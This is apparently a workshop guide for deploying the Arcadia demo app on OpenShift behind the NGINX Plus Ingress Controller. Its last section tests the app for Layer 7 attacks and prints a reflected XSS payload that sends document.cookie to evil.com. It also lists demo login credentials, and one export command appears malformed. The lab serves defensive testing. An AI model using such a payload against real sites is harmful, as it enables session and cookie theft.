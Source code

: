 == Access Arcadia App without NGINX App Protect to establish a baseline

== Cleanup Process

Upon the completion of Lab Module 1, it's necessary to tidy up the lab
environment. Please follow the steps mentioned below.

Execute the following commands in the bash terminal:

[source,sh,role=execute]
----
oc delete virtualserver arcadia
oc delete -f arcadia.yml 
----


== Deploy the Arcadia Application into Kubernetes

[NOTE]
.Note
====
The Arcadia Financial application is the same application we introduced
in Module 1, but a different version with enhanced features which will
be used for our security lab exercises.
====

Before we can access the Arcadia application, we need to deploy it into
our OpenShift cluster. To do this, we'll use a single manifest file
that contains the necessary resources, such as Kubernetes deployments
for the four Docker containers and Kubernetes services for the four
Docker containers.

To get the YAML file, we'll use the following command in our terminal
window:

[source,sh,role=execute]
----
wget https://raw.githubusercontent.com/ericzji/nginx-openshift-lab/main/docs/class1/module2/templates/arcadia-all.yaml
----

Once we have the YAML file, we can apply it to our Kubernetes cluster
with the following command:

[source,sh,role=execute]
----
oc apply -f ./arcadia-all.yaml
----

We can check that our Arcadia application is running by using the
following command in our terminal window:

[source,sh,role=execute]
----
oc get svc
----

This will show us the services running in our cluster, including those related to the Arcadia application.

[source,texinfo,subs="attributes"]
----
$ oc get svc
NAME         TYPE           CLUSTER-IP      EXTERNAL-IP                            PORT(S)        AGE
app2         NodePort       172.30.134.98   <none>                                 80:30362/TCP   3m13s
app3         NodePort       172.30.45.51    <none>                                 80:31662/TCP   3m13s
backend      NodePort       172.30.83.103   <none>                                 80:31584/TCP   3m13s
kubernetes   ClusterIP      172.30.0.1      <none>                                 443/TCP        3h41m
main         NodePort       172.30.25.227   <none>                                 80:30511/TCP   3m13s
openshift    ExternalName   <none>          kubernetes.default.svc.cluster.local   <none>         3h31m
----

== Export the NGINX Ingress Controller services

Interacting with the NGINX Ingress Controller is  easier if we expoort the service External IPs into system variables. 
This allows for templating to take place when we expose our applications.

Paste the below into the terminal and press enter:

[source,sh,role=execute]
----
export nginx_ingress=$(oc get svc my-nginx-ingress-controller -n nginx-ingress --no-headers | tr -s " " | cut -d" " -f4)' >> ~/.bashrc && source ~/.bashrc
----

You can check the domain name with the `echo` command

[source,sh,role=execute]
----
 echo "$nginx_ingress/"
----



== Publish Arcadia app with NGINX Plus Ingress Controller

Now that we have our Arcadia application deployed in our OpenShift
cluster, we need to publish it using the NGINX Plus Ingress Controller.
We'll do this by re-creating the NGINX Ingress Controller with Basic
HTTP using the following command in our terminal window:

This creates a VirtualServer resource for our Arcadia
application, which includes the host for the NGINX Ingress Controller
and the upstreams for the different microservices. We can now access our
Arcadia application externally using the NGINX Ingress Controller URL,
which can be found by running the following command in our terminal
window:

[source,sh,role=execute]
----
cat << EOF | envsubst > arcadia-virtualserver.yml
apiVersion: k8s.nginx.org/v1
kind: VirtualServer
metadata:
  name: arcadia
spec:
  host: $nginx_ingress
  upstreams:
  - name: main
    service: main
    port: 80
  - name: app2
    service: app2
    port: 80
  - name: app3
    service: app3
    port: 80
  routes:
  - path: /
    action:
      pass: main
  - path: /api
    action:
      proxy:
        upstream: app2
  - path: /app3
    action:
      proxy:
        upstream: app3
EOF
----

Use the `cat` command to view the contents of the file and verify the `host` line matches your nginx_ingress external domain name

[source,sh,role=execute]
----
cat arcadia-virtualserver.yml
----

Next, apply the yaml config

[source,sh,role=execute]
----
oc apply -f arcadia-virtualserver.yml
----


We can know go to the URL and  access our Arcadia application by opening it in a web browser.

[source,sh,role=execute]
----
 echo "http://$nginx_ingress/"
----


You should be presented with the Main page, click on Login and enter the
credentials as below.

[source,]
----
Username: matt
Password: ilovef5
----

When you click on Log me in, you should be presented with the Arcadia
application that consists of four microservices:

image:image10.png[image]

Congratulations!

You have now successfully deployed the application in the K8s cluster and
published it externally using the NGINX Plus Ingress controller.

== Is our application protected against Layer 7 attacks?

Before we can protect our Arcadia application with NGINX App Protect, we
need to check if it's currently vulnerable to Layer 7 attacks. We can do
this by executing a simple XSS attack, which is a well-known OWASP top
10 attack.

To perform the XSS attack, we can launch our browser and append `?a=<script>` to the end of the application URL. +
If the request is allowed, then our application is vulnerable to XSS attacks.

image:image11.png[image]

We can further test this by appending the following to the application URL, which will attempt to steal our document cookie.
If this request is  allowed, then a bad actor could potentially steal sensitive information from our application user. +

[source,sh,role=execute]
----
?item='><script>document.location='http://evil.com/steal'+document.cookie</script>
----

image:image12.png[image]

Since our application is currently vulnerable to Layer 7 attacks, we'll
need to protect it using NGINX App Protect in the following Lab.
